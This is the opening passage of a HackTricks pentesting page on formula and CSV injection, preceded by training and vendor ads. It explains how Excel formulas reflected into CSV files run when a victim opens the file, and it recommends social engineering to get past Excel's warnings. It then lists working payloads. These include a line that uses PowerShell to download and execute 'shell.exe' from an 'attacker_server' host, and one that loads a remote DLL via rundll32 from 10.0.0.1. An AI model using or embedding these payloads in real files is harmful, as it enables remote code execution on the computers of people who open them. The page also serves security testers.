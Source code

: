# Formula/CSV/Doc/LaTeX/GhostScript Injection

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

<figure><img src="../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## Formula Injection

### Info

If your **input** is being **reflected** inside **CSV file**s (or any other file that is probably going to be opened by **Excel**), you maybe able to put Excel **formulas** that will be **executed** when the user **opens the file** or when the user **clicks on some link** inside the excel sheet.

{% hint style="danger" %}
Nowadays **Excel will alert** (several times) the **user when something is loaded from outside the Excel** in order to prevent him to from malicious action. Therefore, special effort on Social Engineering must be applied to he final payload.
{% endhint %}

### [Wordlist](https://github.com/payloadbox/csv-injection-payloads)

```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

### Hyperlink
